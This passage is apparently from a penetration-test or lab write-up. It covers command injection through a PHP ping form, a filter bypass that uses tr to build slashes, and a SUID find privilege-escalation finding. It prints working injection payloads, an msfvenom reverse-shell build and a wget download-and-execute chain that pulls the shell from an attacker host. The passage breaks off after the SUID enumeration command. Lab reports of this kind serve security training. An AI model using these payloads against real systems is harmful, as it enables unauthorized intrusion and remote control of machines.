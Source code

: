 Accessing the secret endpoint revealed a php form which was executing the _ping_ command. Although some filtering was in place, the tester was able to bypass the filter by prepending the pipe (|) character to execute code and enumerate the system.

```bash
| id
| cat superadmin.php
```

![Source code of superadmin.php](https://imgur.com/ZkrQvbA.png)

The source code revealed that a list of words were filtered, including the backslash (/); however, the filtering was insufficient as the tester easily bypassed it issuing the following command:

```bash
| cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

![Filter bypass](https://imgur.com/KRXXEs8.png)

Succesfully bypassing the filter, the tester was able upload a reverse shell to obtain initial access to the system.

```bash
# On local machine:
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f elf -o revshell.elf
python3 -m http.server 80
nc -lvnp 1337
# On superadmin.php form:
| wget http:$(echo . | tr '!-0' '"-1')$(echo . | tr '!-0' '"-1')192.168.49.88$(echo . | tr '!-0' '"-1')revshell.elf -O $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell
| chmod +x $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell
| $(echo . | tr '!-0' '"-1')tmp$(echo . | tr '!-0' '"-1')revshell
```

As proof of exploitation, the tester captured the _local.txt_ flag.

![User flag](https://imgur.com/iuG2wEq.png)

### Privilege Escalation

#### Vulnerability Explanation

The _/usr/bin/find_ binary is running with setuid privileges. A low-privileged user may abuse this to obtain high-privileged access to the machine.

#### Vulnerability Fix

Remove the setuid bit from _/usr/bin/find_

#### Attack Walkthrough

After establishing a foothold on the tagert, the tester noticed that the _/usr/bin/find_ binary was running with setuid privileges.

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt
cat suids.txt
```
